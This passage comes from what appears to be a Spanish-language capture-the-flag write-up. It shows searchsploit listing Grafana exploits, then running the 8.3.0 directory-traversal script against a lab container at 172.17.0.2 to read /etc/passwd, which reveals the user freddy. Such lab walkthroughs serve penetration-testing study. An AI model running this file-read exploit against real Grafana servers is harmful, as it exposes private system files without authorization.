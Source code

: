 De momento vamos a pasar al ver que no podemos pasarlo para que john lo entienda.
# EXPLOTACION

Usamos **searchsploit** :

   ```bash
searchsploit grafana         
------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                       |  Path
------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Grafana 7.0.1 - Denial of Service (PoC)                                                                                              | linux/dos/48638.sh
Grafana 8.3.0 - Directory Traversal and Arbitrary File Read                                                                          | multiple/webapps/50581.py
Grafana <=6.2.4 - HTML Injection                                                                                                     | typescript/webapps/51073.txt
------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results


```

Vemos que hay un script para la version 8.3.0:

   ```bash
   
/usr/local/bin/python3 50581.py -H http://172.17.0.2:3000
Read file > /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
ftp:x:101:104:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
grafana:x:103:105::/usr/share/grafana:/bin/false
freddy:x:1000:1000::/home/freddy:/bin/bash

```

